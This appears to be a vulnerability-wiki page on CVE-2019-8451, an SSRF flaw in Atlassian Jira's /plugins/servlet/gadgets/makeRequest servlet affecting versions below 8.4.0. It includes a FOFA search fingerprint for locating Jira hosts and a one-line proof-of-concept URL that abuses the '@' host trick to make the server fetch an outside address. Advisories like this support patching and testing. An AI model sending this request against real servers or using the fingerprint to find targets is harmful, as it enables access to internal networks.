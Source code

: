 # Atlassian Jira makeRequest SSRF vulnerability CVE-2019-8451

## Vulnerability Description

Jira's /plugins/servlet/gadgets/makeRequest resource has an SSRF vulnerability because of the logical flaw of JiraWhitelist. Remote attackers who successfully exploit this vulnerability can access intranet resources as Jira server. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Jira  <8.4.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-JIRA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430132316629.png)

Verify POC

```java
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651296061837-7e8e8f44-15e8-46c4-96f4-62fbe1602493.png)